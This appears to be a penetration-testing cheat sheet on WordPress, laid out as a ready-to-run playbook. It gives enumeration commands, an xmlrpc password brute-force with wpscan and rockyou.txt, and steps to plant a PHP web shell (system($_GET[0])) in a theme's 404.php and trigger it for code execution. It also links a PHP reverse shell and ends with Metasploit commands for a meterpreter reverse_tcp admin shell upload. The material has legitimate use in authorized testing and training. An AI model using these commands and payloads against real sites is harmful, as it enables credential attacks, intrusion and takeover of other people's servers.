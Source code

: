 ## Wordpress

### Enumeration
Interesting files :

```bash
/robots.txt
/wp-sitemap.xml
/wp-admin/admin-ajax.php
/wp-login.php
wp-content/plugins
wp-content/themes
```

Interesting commands :

```bash
curl -s http://$TARGET | grep WordPress
curl -s http://$TARGET/ | grep plugins
curl -s http://$TARGET/?p=1 | grep plugins
wpscan --url http://$TARGET --enumerate --api-token <API_TOKEN>
# Bruteforce
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://$TARGET
```

### Exploitation

- Check for vulnerable plugins

As admin We can edit 404.php file from a theme as a reverse shell (and get RCE) 

Editing (for example) : 

```bash
http://$TARGET/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen
```

Add :
```php
system($_GET[0]);
# or https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Trigger : 
```bash
curl http://$TARGET/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Same steps using metasploit : 
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost $tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost $target_ip  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST vhost (if needed)
```